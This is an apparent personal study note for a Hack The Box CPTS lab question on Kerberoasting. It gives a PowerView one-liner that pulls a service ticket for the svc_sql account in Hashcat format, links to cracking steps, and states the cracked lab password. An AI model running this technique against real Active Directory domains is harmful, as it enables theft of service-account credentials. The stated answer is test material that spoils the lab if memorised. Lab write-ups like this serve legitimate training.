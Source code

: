 [[Question 2]]

# Crack the account's password. Submit the cleartext value.
### **Using PowerView to Target a Specific User** identified in [[Question 2#Kerberoast an account with the SPN with PowerView|Here]]

```Bash
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
```

## [[HACKTHEBOX CPTS/Exploitation/Active Directory Exploitation/Kerberoasting/Kerberoasting - From Windows/Kerberoasting - From Windows#Modifiying crackfile for Hashcat|Prepare]] the Hash to be Cracked

## [[HACKTHEBOX CPTS/Exploitation/Active Directory Exploitation/Kerberoasting/Kerberoasting - From Windows/Kerberoasting - From Windows#Cracking the Hash with Hashcat|Cracking the hash]]

# Cracked PASSWORD

```bash
lucky7
```